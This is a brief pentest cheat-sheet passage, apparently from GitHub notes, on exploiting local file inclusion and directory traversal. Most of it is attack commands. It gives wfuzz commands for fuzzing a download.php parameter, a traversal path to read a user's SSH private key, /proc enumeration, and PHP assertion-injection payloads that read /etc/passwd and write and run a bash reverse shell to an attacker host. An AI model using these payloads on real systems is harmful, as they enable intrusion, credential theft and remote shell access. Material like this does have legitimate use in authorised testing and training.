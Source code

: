 ### :open_file_folder: Check file

lists

https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt

https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt

https://github.com/carlospolop/Auto_Wordlists/blob/main/custom_wordlists/file_inclusion_linux.txt

Check files

```
wfuzz -c -w file_inclusion_linux.txt --hw 0 http://<target ip>/download.php?downloadurl=FUZZ
```

Next, we can test reading the ssh key

```
../../../../../home/<username>/.ssh/id_rsa
```

### :open_file_folder: [Proc File System](https://www.netspi.com/blog/technical/web-application-penetration-testing/directory-traversal-file-inclusion-proc-file-system/)

```
wfuzz -u http://<target ip>/download.php?downloadurl=/proc/FUZZ/cmdline -z range,1-1000 --hw 1

curl http://<target ip>/download.php?downloadurl=/proc/824/cmdline --output service.txt
```

PHP assertions

```shell
page=' and die(system('cat /etc/passwd')) or '
# url encode , page=<encode command string>, escape single quotes 
# page=' and die(system('echo \'/bin/bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1\' > /tmp/revshell.sh && chmod 777 /tmp/revshell.sh && /bin/bash /tmp/revshell.sh')) or '
page=' and die(system('echo '%2Fbin%2Fbash -i >%26 %2Fdev%2Ftcp%2F<attacker ip>%2F<attacker port> 0>%261' > %2Ftmp%2Frevshell.sh %26%26 chmod 777 %2Ftmp%2Frevshell.sh %26%26 %2Fbin%2Fbash %2Ftmp%2Frevshell.sh')) or '%0A
```